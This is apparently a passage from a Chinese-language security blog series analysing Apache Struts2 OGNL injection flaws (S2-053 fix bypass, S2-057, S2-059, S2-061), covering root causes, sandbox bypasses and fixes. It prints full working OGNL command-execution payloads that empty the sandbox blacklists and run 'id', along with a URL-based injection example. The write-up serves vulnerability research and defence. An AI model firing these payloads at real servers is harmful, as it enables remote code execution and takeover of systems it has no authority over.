通过版本代码比对发现，Struts2 `2.5.12`版本做了很多改动。但通过调试发现，针对这个漏洞，最关键的修复代码在于将`OgnlUtil`类里的黑名单集合`excludedPackageNames`和`excludedClasses`都由原来的`HashSet`改为不可修改的集合类`Collections$UnmodifiableSet`来替代，从而使得S2-045的exploit失效了。
如下图所示：


**但！很遗憾**，这个修复可以被轻易绕过，因为修复后的代码中，`OgnlUtil`类里的`excludedPackageNames`和`excludedClasses`属性，只是它引用的集合对象是一个不可修改的对象，故可通过它们的`setter`方法，将其引用到一个空集合对象即可。

这里直接放结论：将在上面的可回显PoC稍加修改，然后**连续执行两次**，便可在修复后的Struts2 `2.5.12`版本getshell！至于为什么需要执行两次才行，这个留到分析S2-057漏洞时再好好说道。
修改后的PoC如下：

```
%{
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#_memberAccess?(#_memberAccess=#dm):
		(
		(#container=#context['com.opensymphony.xwork2.ActionContext.container']).
		(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
		(#ognlUtil.setExcludedPackageNames('')).
		(#ognlUtil.setExcludedClasses('')).
		(#context.setMemberAccess(#dm)))).
(#cmd='id').
(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).
(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).
(#p=new java.lang.ProcessBuilder(#cmds)).
(#p.redirectErrorStream(true)).
(#process=#p.start()).
(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))
}
```


<a name="s2-057"></a>
## S2-057

官方漏洞公告：https://cwiki.apache.org/confluence/display/WW/S2-057

影响版本：`Struts 2.0.4` - `Struts 2.3.34`, `Struts 2.5` - `Struts 2.5.16`

## 漏洞复现与分析

从漏洞公告可获悉，该漏洞有两个前提条件，如下
- `alwaysSelectFullNamespace`为`true`;
- `struts.xml`文件中，没有对`action`对象的上层(即`package`标签)设置`namespace`属性，或者`namespace`属性使用了通配符。

满足这两个前提条件的情况下，存在4个攻击向量：
- `ServletActionRedirectResult`：对应的result type为：`redirectAction`；
- `ActionChainResult`：对应的result type为：`ActionChainResult`;
- `PostbackResult`：对应的result type为：`postback`;
- `ServletUrlRenderer`：对应`<s:url>`标签的处理。

这里仅以`ServletActionRedirectResult`为例进行调试分析，其他3个分析起来差不多。

下面使用docker镜像`medicean/vulapps:s_struts2_s2-057`进行调试分析。该环境使用的是Struts2 `2.5.16`版本。

如下图，应用开启了`alwaysSelectFullNamespace`特性，action对象`actionChain1`的`result`对象的类型设置为`redirectAction`，且`package`没有设置`namespace`属性。


简单表达式执行PoC如下：
```
hxxp://host:port/S2-057/${123+456}/actionChain1.action
```
访问后，跳转的Url如下：
```
hxxp://host:port/S2-057/579/register2.action
```

当`alwaysSelectFullNamespace`特性开启时，`namespace`的值会从`uri`中去获取，如下图：


后面在处理`Result`对象时，在`ServletActionRedirectResult#execute()`方法中，获取前面得到的`namespace`的值，即表达式`${123+456}`，然后与`result`指定的`action`名进行字符串拼接，拼接后的字符串赋值给`ServletActionRedirectResult#location`属性，如下图：


继续跟进代码，在`StrutsResultSupport#conditionalParse()`方法中看到熟悉的`TextParseUtil#translateVariables()`方法调用。没错，后面的执行流程就和S2-012是一样的了，这里不再详述。


下面重点说一下命令执行PoC的构造。

## 可回显PoC

因为在Struts2 `2.5.16`(依赖的ognl版本为`3.1.15`)中，`OgnlContext`的`get()`方法已经不支持传入`OgnlContext.CONTEXT_CONTEXT_KEY`常量，故无法像以前一样在OGNL表达式中使用`#context`直接访问上下文对象`context`。

因此，我们需要找另外的方式先去获取`context`上下文对象，参考文章[3]中提出通过上下文对象内部集合里的`attr`对象来获取`context`上下文对象。因为`attr`是可以使用`#attr`去访问的，它是一个`AttributeMap`对象。如下图：


从`AttributeMap#get()`方法可以看到，其实它会去上下文对象`context`内部存放的`request`、`session`、`application`对象去查值。其中，通过`request.get("struts.valueStack")`便可获取值栈`OgnlValueStack`，而`OgnlValueStack`对象中又存在指向上下文对象的属性。


因此，便可通过`#request['struts.valueStack'].context`或`attr['struts.valueStack'].context`来获取上下文对象。

接着，再配合前面S2-053的修复绕过，即利用`setter`方法将指向黑名单集合的属性值`excludedClass`和`excludedPackageNames`指向一个空的集合。

综上可得，命令执行可回显的PoC如下：

```
${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#ct=#request['struts.valueStack'].context).
(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).
(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ou.setExcludedPackageNames('')).(#ou.setExcludedClasses('')).
(#ct.setMemberAccess(#dm)).
(#a=@java.lang.Runtime@getRuntime().exec('id')).
(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))
}
```

但为什么执行第一次的时候无效呢？

是因为PoC里改的是`OgnlUtil`对象里的`excludedClass`和`excludedPackageNames`，而实际进行黑名单校验时，是在安全管理器`SecurityMemberAccess`中进行的，使用的也是`SecurityMemberAccess`中的`excludedClass`和`excludedPackageNames`属性。

为什么执行第二次就可以了呢？

是因为每次请求，在`OgnlValueStack#setOgnlUtil()`方法中，`SecurityMemberAccess`都会从`OgnlUtil`中获取类和包名黑名单，并通过`setter`方法赋值到自身的属性`excludedClass`和`excludedPackageNames`。如下图：


因为第一次请求，我们已经将`OgnlUtil`的`excludedClass`和`excludedPackageNames`给指向了空的集合。所以第二次请求，`SecurityMemberAccess`从`OgnlUtil`获取到的黑名单也因此变成了空的集合。从而实现了绕过。


### 漏洞修复

在Struts2 `2.5.17`版本中，`DefaultActionMapping`在获取`namespace`时增加了正则匹配字符白名单的校验。


   


<a name="s2-059"></a>
## S2-059

官方漏洞公告：https://cwiki.apache.org/confluence/display/WW/S2-059

影响版本：`Struts 2.0.0` - `Struts 2.5.20`

## 漏洞复现与分析

从漏洞公告可获悉，该漏洞的场景是：当Struts2的标签属性值引用了`action`对象的参数值时，便会出现OGNL表达式的二次解析，从而产生RCE风险。

>**注**：虽然官方漏洞公告里说该漏洞影响到`2.5.20`版本，但实际上公开的用于`2.5.16`版本的命令执行的PoC在`2.5.20`版本则失效。原因后面会说到。

下面使用Struts2 `2.5.16`版本进行复现、分析和调试。构造一个符合条件的应用，关键代码如下

`index.jsp`
```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8" %>
<%@ taglib prefix="s" uri="/struts-tags" %>
<html>
<head>
    <title>S2-059 demo</title>
</head>
<body>
<s:a id="%{id}">your input id: ${id}
    <br>has ben evaluated again in id attribute
</s:a>
</body>
</html>
```

`struts.xml`
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE struts PUBLIC
        "-//Apache Software Foundation//DTD Struts Configuration 2.0//EN"
        "http://struts.apache.org/dtds/struts-2.0.dtd">

<struts>
    <constant name="struts.devMode" value="false"/>

    <package name="default" namespace="/" extends="struts-default">
        <default-action-ref name="index"/>
        <action name="index" class="org.pwntester.action.IndexAction" method="changeId">
            <result>index.jsp</result>
        </action>
    </package>
</struts>
```

`IndexAction.java`
```java
public class IndexAction extends ActionSupport {
    private String id;

    public IndexAction() {}
    public String changeId() {
        return "success";
    }
    public String getId() {
        return this.id;
    }
    public void setId(String id) {
        this.id = id;
    }
}
```

这里我们根据漏洞公告中的示例，使用`<s:a>`标签，并在标签中使用`id`属性来引用`action`中的参数值。

因此我们可以将断点下在`<s:a>`对应的标签类`AnchorTag`的`doStartTag()`方法中(实际调用的是父类方法`ComponentTagSupport#doStartTag()`)，然后进行调试。


跟进`AnchorTag#populateParams()`方法，在其父类`AbstractUITag#populateParams()`方法中发现调用`Anchor#setId()`对`id`属性进行设置。


跟进`Anchor#setId()`，`Anchor`会调用父类方法`Component#findValue()`，在该方法中，如果`altSyntax`特性是开启的(`altSyntax`默认开启)，且`id`属性的值是一个符合`%{}`形式的表达式的情况下，会调用我们熟悉的`TextParseUtil.translateVariables()`进行OGNL表达式求值，求值的过程就是从`IndexAction`对象中通过`getter`方法来获取其`id`属性的值，即我们传入的`id`参数的值。


到此，`<s:a id=%{id}>`标签的`id`属性就被赋值好了，即第一次的OGNL表达式求值就完成了。

再次回到`ComponentTagSupport#doStartTag()`方法中继续跟进，发现调用`Anchor#start()`方法，跟进该方法。一直跟进，发现在`UIBean#populateComponentHtmlId()`方法中，调用`Component#findStringIfAltSyntax()`对`Anchor`对象的`id`属性值进行处理，如下图：


跟进去，发现最终在`Component#findValue()`方法中又看到了熟悉的`TextParseUtil.translateVariables()`。跟到这里就是第二次OGNL表达式求值，如下图：


到此漏洞原理的部分就结束了。下面说一下命令执行PoC的构造。

## 可回显PoC

在Struts2 `2.5.16`版本，直接使用S2-057的PoC便可，但最前面的`$`符号要改为`%`。同样是发送两次请求。

```
%{
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#ct=#request['struts.valueStack'].context).
(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).
(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ou.setExcludedPackageNames('')).(#ou.setExcludedClasses('')).
(#ct.setMemberAccess(#dm)).
(#a=@java.lang.Runtime@getRuntime().exec('id')).
(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))
}
```


接着说一下为什么该命令执行PoC在Struts2 `2.5.20`版本中失效。

**1、Struts2 `2.5.20`的类和包名的黑名单扩充了**，如下：


其中增加了包名`com.opensymphony.xwork2.ognl`，导致无法通过`#request['struts.valueStack'].context`或`#attr['struts.valueStack'].context`来获取上下文对象。因为`OgnlRuntime#getFieldValue()`方法中有引入沙盒保护，会禁止黑名单里的类的对象去获取成员属性。


**2、`OgnlRuntime#getStaticField()`方法也引入了Struts2的沙盒保护**

Struts2 `2.5.16`版本所依赖的`ognl`库的版本为`3.1.15`，Struts2 `2.5.20`版本依赖的`ognl`库的版本为`3.1.21`。在`ognl-3.1.21`的类`OgnlRuntime#getStaticField()`中也引入了Struts2的沙盒进行保护，禁止黑名单类去获取静态属性，关键代码如下：


这将导致无法通过表达式`@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS`获取`OgnlContext`类的静态属性`DEFAULT_MEMBER_ACCESS`。


## 漏洞修复

Struts2 `2.5.22`版本并没有对漏洞点进行修复，而是在`2.5.20`版本的基础上再次扩充了类/包名黑名单。另外，还使用了更新版本的依赖库`ognl-3.1.26`，在该版本中，增加了`Strict`模式，如果使用该模式，`OgnlRuntime#invokeMethod()`方法就会校验当前调用的类，禁止常见危险的类调用方法。


<a name="s2-061"></a>
## S2-061

官方漏洞公告：https://cwiki.apache.org/confluence/display/WW/S2-061

影响版本：Struts 2.0.0 - Struts 2.5.25

## 漏洞复现与分析

该漏洞是S2-059的绕过。前面分析S2-059时说过，从`2.5.20`版本开始，随着安全沙盒的增强，使得在`2.5.20`之后，利用OGNL表达式进行远程代码执行受到了很大的限制，并无公开的沙盒绕过的利用，直到S2-061的出现。

因此漏洞原理和S2-059是一样的。下面来看看已公开的命令执行PoC是如何绕过沙盒的。

## 可回显PoC

由于沙盒的增强，我们无法像之前一样轻易的获取上下文对象`context`：
- `OgnlContext`删除了`CONTEXT_CONTEXT_KEY`这个`key`，故无法通过`OgnlContext#get()`方法，即通过`#context`获取上下文对象;
- 包名黑名单中包含`com.opensymphony.xwork2.ognl.`，故无法通过`#request['struts.valueStack'].context`或`attr['struts.valueStack'].context`获取上下文对象。
- 包名黑名单中包含`ognl.`，且`OgnlRuntime`类引入了沙盒保护，因此即使获得上下文对象`context`，也无法通过OGNL表达式直接操作它的属性和方法，只能通过间接的方式。

因此只能通过调试看看上下文对象`OgnlContext`中还有什么其他可利用的对象，来间接获取上下文对象。
这里使用`#application`来获取`OgnlContext`内部`Map`集合中的`ApplicationMap`对象。`ApplicationMap`内部存放了整个应用实例的一些对象，比如这里通过键`org.apache.tomcat.InstanceManager`来获取Tomcat中的`DefaultInstanceManager`对象。


可使用`DefaultInstanceManager#newInstance()`方法，指定类名，来实例化任意对象，但前提是指定的类需要有无参构造方法。

然后使用该方法来创建类`org.apache.commons.collections.BeanMap`的实例对象，然后通过`BeanMap`的`setBean/get`方法来间接获取上下文对象`context`。

以下是`BeanMap#setBean()`方法的实现。它会获取指定`bean`对应的类的所有读写(`setter/getter`)方法，并保存在内部的`HashMap`集合中。另外，每次调用`setBean()`方法，原本存放读写(`setter/getter`)方法的内部`HashMap`集合都会被清空。


       

       


而`BeanMap#get()`则是获取当前`bean`的指定的`getter`方法。

便可使用以下表达式获取上下文对象`context`：
```
(#instancemanager=#application['org.apache.tomcat.InstanceManager']).
(#stack=#request['struts.valueStack']).
(#bean=#instancemanager.newInstance('org.apache.commons.collections.BeanMap')).
(#bean.setBean(#stack)).
(#context=#bean.get('context'))
```

然后使用同样的方式来获取上下文`context`对象中的安全管理器对象`SecurityMemberAccess`，即安全沙盒的主要实现类。并使用`BeanMap#put()`方法实现黑名单的置空操作。即：
```
(#macc=#bean.get('memberAccess')).
(#bean.setBean(#macc)).
(#emptyset=#instancemanager.newInstance('java.util.HashSet')).
(#bean.put('excludedClasses',#emptyset)).
(#bean.put('excludedPackageNames',#emptyset))
```

到此，便实现了绕过沙盒，获取了上下文对象`context`，并将沙盒的黑名单指向了一个空的集合。剩下要做的便是执行命令。前面提到过，从`ognl`从`3.1.26`版本开始，增加了`Strict`模式，且是默认启用的。在该模式下，`OgnlRuntime#invokeMethod()`方法还将`java.lang.Runtime`和`java.lang.ProcessBuilder`这两类给ban掉了。这就意味着即使前面绕过了沙盒，最终还是无法在表达式中直接调用这两个类的方法去执行命令。只能通过间接的方式，比如其他某个类的某个方法，里面调用了`Runtime#exec()`或`ProcessBuilder#start()`，且命令参数可控。

`S2-061`的报告者，知名的安全研究员`pwntester`给出了一种方法，就是通过调用`freemarker`中的`freemarker.template.utility.Execute#exec()`实现命令执行。

>估计是他在研究FreeMarker模板注入漏洞及沙盒绕过的时候想到的。详见他的Blackhat议题：<Room for Escape: Scribbling Outside the Lines of Template Security\>(参考[6])

最终可得：
```
%{
(#instancemanager=#application['org.apache.tomcat.InstanceManager']).
(#stack=#request['struts.valueStack']).
(#bean=#instancemanager.newInstance('org.apache.commons.collections.BeanMap')).
(#bean.setBean(#stack)).
(#context=#bean.get('context')).
(#bean.setBean(#context)).
(#macc=#bean.get('memberAccess')).
(#bean.setBean(#macc)).
(#emptyset=#instancemanager.newInstance('java.util.HashSet')).
(#bean.put('excludedClasses',#emptyset)).
(#bean.put('excludedPackageNames',#emptyset)).
(#arglist=#instancemanager.newInstance('java.util.ArrayList')).
(#arglist.add('id')).
(#execute=#instancemanager.newInstance('freemarker.template.utility.Execute')).
(#execute.exec(#arglist))}
```


## 漏洞修复

通过版本比对，Struts2在`2.5.26`版本，不仅修复了漏洞触发点，还扩充了包名黑名单以增强沙盒。

1、修改了`UIBean#setId()`，从而避免OGNL表达式二次解析。


2、在包名黑名单中添加了属于各种中间件(如：Tomcat、JBoss、Weblogic、Jetty、Websphere)的包名。


<a name="summary"></a>
## 小结
以上，Struts2的高危漏洞分析系列就暂告一段落了。

在这个过程中，不仅提升我的Java漏洞调试能力，积累了经验，同时看到了安全研究人员和程序员之间的攻防博弈，还是蛮有意思的。

一开始我提到，尽管现在struts2用的越来越少了，但对于漏洞研究人员来说，感兴趣的是漏洞的成因和漏洞的修复方式，因此还是有很大的学习价值的。

Struts2的绝大部分高危漏洞，都是由于不安全的OGNL表达式执行。

OGNL表达式引擎，是Struts2为了解决在MVC模式中，数据在各层间的表现形式不同而造成数据流转和访问的问题而引入的。它可以构建表达式和Java对象之间的映射关系，且具有丰富多样的表达式语法计算。它非常强大和灵活。但往往功能强大灵活的同时就会带来安全问题，因为OGNL表达式可以操作Java对象和其成员。另外，通过分析这一系列的漏洞，就可以发现，OGNL表达式求值是贯穿在整个Struts2框架中的，非常的多地方有用到，比如拦截器、标签库、返回对象`Result`、异常信息等。所以漏洞触发点就会有很多。因此，在这些漏洞的修复方案里，不仅有在上层代码进行相关入参的安全过滤(比如正则白名单)，还有沙盒的引入以限制命令执行的漏洞利用。但随着一次又一次的被绕过，沙盒也越来越强，即限制越来越多，绕过的难度越来越大。得依靠一些依赖包里的对象去实现，就像S2-061的代码执行，就是通过Tomcat里的`DefaultInstanceManage`和Freemarker里的`freemarker.template.utility.Execute`来实现的，也因此新的黑名单里增加了各类Java中间件的常见包名。往后的沙盒绕过就更难了。

另外，对于Struts2漏洞这种`sink`比较固定的情况下，很适合使用CodeQL来自动化挖掘漏洞触发链。Github安全实验室博客就有好几篇讲到使用CodeQL挖掘Struts2漏洞的文章。后面有时间的话我也会分享CodeQL相关的内容。


<a name="reference"></a>
## Reference
[1] hxxp://vulapps.evalbug.com/tags/#struts2 <br>
[2] hxxps://github.com/vulhub/vulhub/tree/master/struts2 <br>
[3] hxxps://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776/ <br>
[4] hxxps://securitylab.github.com/research/apache-struts-CVE-2018-11776/ <br>
[5] 《Struts2技术内幕：深入解析Struts2架构设计与实现原理》- 作者:陆舟 <br>
[6] hxxps://i.blackhat.com/USA-20/Wednesday/us-20-Munoz-Room-For-Escape-Scribbling-Outside-The-Lines-Of-Template-Security-wp.pdf <br>
